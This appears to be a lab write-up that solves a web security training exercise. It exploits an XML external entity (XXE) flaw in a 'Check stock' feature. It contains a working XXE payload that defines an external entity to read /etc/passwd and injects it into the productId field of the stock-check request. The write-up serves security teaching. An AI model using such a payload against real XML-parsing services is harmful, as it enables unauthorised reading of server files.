

# Exploiting XXE using external entities to retrieve files
# Objective
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.\
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

||
|:--:| 
| *Check stock request* |

## Exploitation
The XXE injection (file retrieval) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XXE injection - File retrieval* |
